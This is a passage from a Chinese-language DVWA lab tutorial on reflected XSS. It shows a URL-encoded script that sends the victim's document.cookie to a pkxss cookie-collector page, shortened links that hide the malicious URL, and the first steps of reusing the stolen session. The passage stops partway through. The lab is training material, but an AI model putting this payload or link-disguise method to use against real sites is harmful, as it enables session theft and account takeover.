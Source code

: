 ##### 对payload进行URL编码

- 首先打开burpsuite  
- 选中decode 模块  ，
  - 复制`<script></script>` 里面的内容
  - 选择  encoder as --URL 

![image-20211223105557031](https://gitee.com/xxb667/img/raw/master/img/image-20211223105557031.png)



![image-20211223105609663](https://gitee.com/xxb667/img/raw/master/img/image-20211223105609663.png)

编码后的内容 为：（注意这里不要复制我的内容，IP地址和你的不一样）

```
http://192.168.81.135/DVWA/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%38%31%2e%31%33%35%2f%70%69%6b%61%63%68%75%2f%70%6b%78%73%73%2f%78%63%6f%6f%6b%69%65%2f%63%6f%6f%6b%69%65%2e%70%68%70%3f%63%6f%6f%6b%69%65%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%3c%2f%73%63%72%69%70%74%3e
```

##### 在线短地址转化平台

链接太长我们可以使用在线短网址平台，转化为短网址

在线平台：https://6du.in/

![image-20211223105941904](https://gitee.com/xxb667/img/raw/master/img/image-20211223105941904.png)

![image-20211223110137702](https://gitee.com/xxb667/img/raw/master/img/image-20211223110137702.png)

短地址为：

```
http://t-t.ink/8S1Bk
http://t-t.ink/6h1N8
```

输入这个地址后会自动进行跳转

![image-20211223110747237](https://gitee.com/xxb667/img/raw/master/img/image-20211223110747237.png)

#### 4.开始攻击

直接复制上述网址到浏览器中打开：

刷新pikachu XSS平台查看窃取的cookie

![image-20211223110837669](https://gitee.com/xxb667/img/raw/master/img/image-20211223110837669.png)

### 0x06:使用窃取的cookie 登陆DVWA

#### 1:使用普通用户登陆DVWA

重新打开另外一个新的浏览器：
